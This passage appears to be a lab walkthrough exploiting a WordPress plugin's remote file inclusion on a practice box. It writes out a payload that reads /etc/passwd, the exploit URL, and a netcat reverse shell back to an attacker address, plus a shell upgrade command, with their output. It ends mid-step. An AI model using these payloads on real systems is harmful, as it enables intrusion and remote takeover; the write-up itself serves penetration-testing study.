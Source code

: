 Visiting the first link under references explains how to use this exploit.

I create a file called **test.txt** with this payload in it and start up a simple Python HTTP server to host it:

```
<pre>system('cat /etc/passwd')</pre>  
```

Navigating to the address the exploit suggested triggers a GET request and ultimately runs the command displaying the **/etc/passwd** file:

```
view-source:http://192.168.65.123/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.49.65/test.txt
```

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.65.123 - - [27/Apr/2022 23:49:39] "GET /test.txt?swp_debug=get_user_options HTTP/1.0" 200 -
```

```
root:x:0:0:root:/root:/bin/bash
<SNIP>
takis:x:1000:1000:takis,,,:/home/takis:/bin/bash
```

<br>

## System Access

I modify the **test.txt** file to run a **which nc** command to check if netcat is installed on the system, and it is. Let's see if we can use that for a reverse shell.

I modify the **text.txt** file again and add the standard **nc mkfifo reverse shell**:

```
<pre>system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.49.65 4444 >/tmp/f')</pre>
```

And visiting the exploitable URL again gets us a reverse shell:

```
listening on [any] 4444 ...
connect to [192.168.49.65] from (UNKNOWN) [192.168.65.123] 35212
bash: cannot set terminal process group (512): Inappropriate ioctl for device
bash: no job control in this shell
www-data@wpwn:/var/www/html/wordpress/wp-admin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The shell we get back isn't great so I run the following to upgrade the shell:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

Background the session
